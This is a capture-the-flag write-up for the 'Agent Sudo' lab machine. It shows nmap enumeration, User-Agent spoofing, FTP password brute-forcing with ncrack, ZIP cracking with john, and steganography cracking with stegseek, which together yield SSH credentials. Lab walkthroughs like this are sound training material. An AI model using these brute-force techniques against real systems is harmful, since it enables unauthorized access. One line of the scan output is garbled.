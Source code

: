 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Resolution

### 1. Enumerate
Let's start enumerating the machine using nmap:
```
Nmap scan report for 10.10.130.231
Host is up (0.081s latency).
Not shown: 997 clFrom,<br>
Agent Rosed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Iteresting, we have a web server, an FTP server, and an SSH agent.\
Navigating to the web page, we get the following message
> Dear agents,
>
> Use your own codename as user-agent to access the site.
>
> From,\
> Agent R

The message mentions the `User-Agent` http header. There should be a perticular codename that will give us access to more pages in the web app.
Back to the hint in the room description, `C` is the actual user-agent that should be used. We can use many tools to edit the user-agent header; a browser plugin, burpsuite, curl, ...

Once the request made, we get redirected to `/agent_C_attention.php`:
> Attention chris,
>
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
>
> From,\
> Agent R

Our agent's name is Chris.

### 2. Hash-cracking and brute force

Chris' password is weak as agent J said, so it's most likely that we would be able to crack it using a standard wordlist attack on the FTP server.
We can use different tools to do so, here is the command snippet using `ncrack` alongside the `rockyou` wordlist (username.txt contains one entry which is chris):
```
$ ncrack -U username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.130.231 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-02-15 19:13 UTC
Stats: 0:00:59 elapsed; 0 services completed (1 total)
Rate: 8.70; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.130.231 21/tcp:
10.10.130.231 21/tcp ftp: 'chris' 'crystal'
caught SIGINT signal, cleaning up
```

Found the password of chris. Now we can connect to the server and get all the files out there.\
```
$ ftp chris@10.10.130.231

Connected to 10.10.130.231.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45850|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

First intersting file should be the message to agent J:

> Dear agent J,
>
> All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
>
> From,\
> Agent C

The password of J is somewhere in on of the pictures. This technique is called steganography. We can use `binwalk` to extract (`-e`) embded files and executable code:

```
$ binwalk cutie.png   

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

$ binwalk -e cutie.png
```

`binwalk` creates a folder with all the extracted data. The Zip archive is protected with a password which we can use `john` to brute force: First, get the hash of the password from the archive using `zip2john`, and second, launch the brute force attack:
```
$ zip2john 8702.zip > zip.hash

$ john zip.hash
```

After some time we get the password `alien`. Note that `john` used a default wordlist and that we can specify our own wordlist using `-wordlist:FILE`.
Inside the arhive, we find the following file `To_agentR.txt`:

> Agent C,
>
> We need to send the picture to 'QXJlYTUx' as soon as possible!
> 
> By,\
> Agent R

Nothing interresting but let's keep the info for the moment.\
Next, a steg(steganography) password is demanded. There are many tools to do so, again, by brute force. `stegseek` is one of them.
```
$ stegseek cutie.png /usr/share/wordlists/fasttrack.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "cutie.png" is not supported.

$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt  
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

In addition to the passphrase, `stegseek` outputs the embedded file too, in this case `message.txt`:
> Hi james,
>
> Glad you find this message. Your login password is hackerrules!
>
> Don't ask me why the password look cheesy, ask agent R who set this password for you.
>
> Your buddy,\
> chris

### 3. Capture the user flag

Now that we have access to James credentials, we can connect to the machine via ssh.\
Once there, first thing we find is the user flag. Then, another alien picture `Alien_autospy.jpg`.











